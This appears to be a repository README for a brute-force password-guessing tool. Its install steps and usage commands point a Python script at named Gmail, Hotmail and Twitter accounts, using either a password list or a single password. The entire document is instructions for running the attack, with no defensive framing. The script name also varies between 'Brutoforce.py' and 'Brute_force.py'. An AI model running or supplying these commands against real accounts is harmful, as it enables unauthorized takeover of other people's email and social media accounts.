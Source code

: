 # Brute_Force
![alt text](https://1.top4top.net/p_128839jbv1.png)

# install :

 pip install proxylist
 pip install mechanize


Usage:

# Bruteforce Gmail 

python3 Brutoforce.py -g Account@gmail.com -l File_list
python3 Brutoforce.py -g Account@gmail.com -p Password_Single


# Bruteforce Hotmail
 
python3 Brute_force.py -t Account@hotmail.com -l File_list
python3 Brute_force.py -t Account@hotmail.com -p Password_Single


# Bruteforce Twitter

python3 Brutoforce.py -T Account_Twitter -l File_list
